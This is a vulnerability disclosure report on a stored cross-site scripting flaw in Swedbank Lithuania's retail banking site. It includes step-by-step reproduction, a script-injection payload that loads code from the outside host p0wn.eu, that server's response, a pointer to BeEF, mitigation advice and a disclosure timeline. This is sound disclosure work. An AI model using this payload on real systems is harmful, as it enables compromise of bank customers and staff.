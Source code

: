 SWEDBANK: Stored-Cross-Site-Scripting vulnerability in Retail Banking application
=================================================================================

Description
-----------
A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet baking application hosted at https://www.swedbank.lt/private is vulnerable to a Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

Proof-of-Concept
----------------
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
(pageId = private.home.important.aliases)

Then change any account name to this payload:
`A<script src=“//p0wn.eu”></script>`
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```1. Privatiems▸
2. Kasdienės paslaugos▸
3. Apžvalga
```

(English)
```1. Private▸
2. Everyday banking▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos
2. Kitos paslaugos
3. Mano finansų apžvalga
```

(English)
```
1. Services
2. Other services 
3. Summary of my finances
```

Then the payload is executed (pictures included).

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload server `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
**Mitigation**
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference:
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

———————————————————
TIMELINE
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 Public release
———————————————————
